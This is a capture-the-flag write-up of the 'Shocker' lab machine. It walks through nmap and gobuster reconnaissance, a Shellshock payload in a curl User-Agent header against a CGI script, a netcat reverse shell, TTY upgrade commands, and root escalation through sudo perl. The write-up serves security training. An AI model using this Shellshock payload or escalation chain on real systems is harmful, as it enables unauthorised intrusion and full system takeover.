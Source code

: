 ```yaml
---
title: Shocker Writeup(Easy)
published: true
---
```


![machine logo](/assets/shocker/logo.png)

# [](#header-2)Recognition

First of all we do a scan with nmap:

```bash
sudo nmap -sS -p- --open 10.129.50.136 -n -Pn -v
```

The nmap command reported the following ports:
*   Port 80
*   Port 2222

We do a second, more advanced scan:

```bash
sudo nmap -sCV -p80,2222 10.129.50.136
```

The scan reports the following information:

![Escaneo nmap](/assets/shocker/nmapScan.png)

We can see that the **ssh** version is vulnerable to **user enumeration(CVE-2016-6210)** and there is a **web service** running with Apache.

For the moment we are going to start with the web server.

![whatweb command](/assets/shocker/whatweb.png)

The **whatweb** command doesn't give us much information so let's visit the website.

![website](/assets/shocker/website.png)

In the website there is only one image, but after using gobuster to search other directories we found the **cgi-bin** directory.

![gobuster cgi-bin](/assets/shocker/cgi-bin.png)

Now we fuzz in this directory for any file with the extension  **cgi, sh, pl, py**.

![gobuster user.sh](/assets/shocker/usersh.png)

After some research I discovered that cgi scripts can be vulnerable to [shellsock](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) so we try to change the **User-Agent**.

# [](#header-2)Explotation

We use the following command and we can execute the command **id**, so we try to get a reverse shell.

```bash
curl -s -X GET "http://10.129.50.136/cgi-bin/user.sh" -H "User-Agent: () { :; }; echo; /usr/bin/id"
```

We use nc to get a reverse shell:

![reverse shell](/assets/shocker/reverseshell.png)

Now we use the command from [hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys) to get a full tty shell:

```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

We get the **user flag** from the home directory:

![user flag](/assets/shocker/userflag.png)

# [](#header-2)Privilege Escalation

Using the command **sudo -l** we can see that we can execute perl as **root**.

![sudo -l](/assets/shocker/sudo-l.png)

Using the [gtfobins](https://gtfobins.github.io/gtfobins/perl/#shell) command we can get a shell as **root**.

![privilege escalation](/assets/shocker/privesc.png)

Now that we are root we can see the root flag.

![root flag](/assets/shocker/rootflag.png)
